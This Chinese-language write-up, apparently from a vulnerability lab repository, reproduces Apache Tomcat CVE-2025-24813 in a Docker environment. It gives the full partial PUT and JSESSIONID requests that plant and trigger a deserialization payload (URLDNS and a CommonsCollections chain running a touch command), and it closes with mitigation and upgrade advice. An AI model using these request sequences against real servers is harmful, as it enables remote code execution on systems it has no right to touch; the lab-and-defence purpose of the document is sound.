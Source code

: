 # Tomcat 远程代码执行漏洞 CVE-2025-24813

## 漏洞描述

Apache Tomcat 是一个开源的 Java Servlet 容器和 Web 服务器，支持运行 Java Servlet、JavaServer Pages (JSP) 和其他基于 Java 的 Web 应用程序，广泛用于开发和部署企业级 Web 应用。

该漏洞源于 Tomcat DefaultServlet 处理 partial PUT 请求（基于 `Content-Range` 头的 HTTP PUT 请求）时的临时文件命名逻辑不安全，导致攻击者可以通过构造特殊的请求路径，访问或写入安全敏感文件。

满足以下条件，攻击者可以访问或修改安全敏感文件：

1. DefaultServlet 启用了写入权限（默认情况下禁用）。
2. 服务器启用了 partial PUT（默认启用）。
3. 该敏感文件存放在允许上传的目录的子路径（攻击者需要能够在该敏感文件目录上级路径使用 partial PUT 上传文件）
4. 攻击者已知目标敏感文件的路径以及文件名。
5. 敏感文件是通过 partial PUT 上传的。

满足以下条件，攻击者可以远程代码执行（RCE）：

1. DefaultServlet 启用了写入权限（默认情况下禁用）。
2. 服务器启用了 partial PUT（默认启用）。
3. Tomcat 使用了基于文件的 Session 持久化机制（非默认配置，默认为基于内存持久化），且存储位置为默认路径。
4. 应用程序包含可利用的反序列化漏洞库（如 Commons-Collections 3.x）。

参考链接：

- https://lists.apache.org/thread/j5fkjv2k477os90nczf2v9l61fb0kkgq
- https://github.com/charis3306/CVE-2025-24813
- https://forum.butian.net/article/674

## 漏洞影响

```
11.0.0-M1 ≤ Apache Tomcat ≤ 11.0.2
10.1.0-M1 ≤ Apache Tomcat ≤ 10.1.34
9.0.0.M1 ≤ Apache Tomcat ≤ 9.0.98
```

## 环境搭建

Vulhub 执行以下命令启动存在漏洞的 Tomcat 9.0.97 服务器：

```
docker compose build
docker compose up -d
```

服务启动后，访问 `http://your-ip:8080` 即可看到 Tomcat 的示例页面。

![](images/Tomcat%20远程代码执行漏洞%20CVE-2025-24813/image-20250317103255175.png)

## 漏洞复现

`Content-Range` 在 Tomcat 的 HTTP PUT 请求中主要用于实现大文件的分块传输。在文件上传未完成的情况下，内容会被临时存储在 Tomcat 的工作目录：`$CATALINA_BASE/work/Catalina/localhost/ROOT`。

当发送不完全的 PUT 请求（使用 `Content-Range` 头）时，Tomcat 会将文件路径中的分隔符 (`/`) 转换为句点 (`.`)，并将文件临时存储在会话存储目录中，例如：访问 `/xxxxx/session` 会被解析为 `.xxxxx.session`。

该漏洞存在的原因是 Tomcat 中两个关键的错误配置。首先，在 `conf/web.xml` 中，DefaultServlet 配置了 `readonly=false`，允许文件上传：

```xml
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

其次，在 `conf/context.xml` 中，Tomcat 配置了基于文件的 Session 持久化：

```xml
<Manager className="org.apache.catalina.session.PersistentManager">
    <Store className="org.apache.catalina.session.FileStore"/>
</Manager>
```

这两种配置都使用相同的默认存储路径：`$CATALINA_BASE/work/Catalina/localhost/ROOT`。

### URLDNS

我们先用 URLDNS gadget 进行测试。发送带有 Content-Range 头的部分 PUT 请求，在临时目录 `$CATALINA_BASE/work/Catalina/localhost/ROOT` 中写入名为 `.deserialize.session` 的文件：

```
PUT /deserialize/session HTTP/1.1
Host: your-ip:8080
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.6788.76 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Type: application/data
Content-Length: 1000
Content-Range: bytes 0-1000/1200

YOUR-PAYLOAD-HERE
```

![](images/Tomcat%20远程代码执行漏洞%20CVE-2025-24813/image-20250317114226744.png)

可以看到，文件 `.deserialize.session` 已经被写入：

![](images/Tomcat%20远程代码执行漏洞%20CVE-2025-24813/image-20250317140742989.png)

然后，发送另一个带有 JSESSIONID cookie 的请求，触发文件 `.deserialize.session` 的反序列化：

```
GET / HTTP/1.1
Host: your-ip:8080
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.6788.76 Safari/537.36
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=.deserialize 
```

![](images/Tomcat%20远程代码执行漏洞%20CVE-2025-24813/image-20250317114246305.png)

URLDNS gadget 被成功反序列化，并发送了 DNS 请求：

![](images/Tomcat%20远程代码执行漏洞%20CVE-2025-24813/image-20250317112514451.png)

### CommonsCollectionsK1

回顾一下远程代码执行（RCE）的利用过程：

1. DefaultServlet 配置了 `readonly=false`，允许文件上传。
2. 服务器默认启用了 partial PUT。
3. Tomcat 配置了基于文件的 Session 持久化，且存储位置为默认路径 `$CATALINA_BASE/work/Catalina/localhost/ROOT`。
4. 应用程序存在反序列化利用链，在临时目录中写入包含恶意反序列化数据的文件。
5. 设置 `JSESSIONID=.xxxxx` 触发漏洞。

我们修改 docker-compose.yml，引入 `commons-collections-3.2.1`：

```
services:
 tomcat:
   build: .
   volumes:
     - ./commons-collections-3.2.1.jar:/usr/local/tomcat/webapps/ROOT/WEB-INF/lib/commons-collections-3.2.1.jar
   ports:
    - "8080:8080"
```

重新启动服务：

```
docker compose up --force-recreate
```

用 [java-chains](https://github.com/vulhub/java-chains) 生成 payload：

![](images/Tomcat%20远程代码执行漏洞%20CVE-2025-24813/image-20250317142046832.png)

发送带有 Content-Range 头的部分 PUT 请求，在临时目录 `$CATALINA_BASE/work/Catalina/localhost/ROOT` 中写入名为 `.poc.session` 的文件：

```
PUT /poc/session HTTP/1.1
Host: your-ip:8080
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.6788.76 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Type: application/data
Content-Length: 1000
Content-Range: bytes 0-1000/1200

YOUR-PAYLOAD-HERE
```

![](images/Tomcat%20远程代码执行漏洞%20CVE-2025-24813/image-20250317141540103.png)

可以看到，文件 `.poc.session` 已经被写入：

![](images/Tomcat%20远程代码执行漏洞%20CVE-2025-24813/image-20250317141613972.png)

![](images/Tomcat%20远程代码执行漏洞%20CVE-2025-24813/image-20250317141703769.png)

CommonsCollectionsK1 gadget 被成功序列化，执行了 `touch /tmp/awesome_poc` 命令：

![](images/Tomcat%20远程代码执行漏洞%20CVE-2025-24813/image-20250317141811798.png)

## 漏洞修复

### 临时缓解方案

如果暂时无法升级，可以采取以下临时措施降低风险：

- 禁止 partial PUT：在 conf/web.xml 中修改 allowPartialPut 参数为 false，并 重启 Tomcat 以使配置生效。
- 严格控制 DefaultServlet 写入权限：确保 readonly=true，禁用所有未经授权的 PUT/DELETE 请求，仅允许可信来源访问受限目录。

### 通用修补建议

- 升级至 [安全版本](https://lists.apache.org/thread/j5fkjv2k477os90nczf2v9l61fb0kkgq) Apache Tomcat ≥ 11.0.3、Apache Tomcat ≥10.1.35、 Apache Tomcat ≥ 9.0.99。
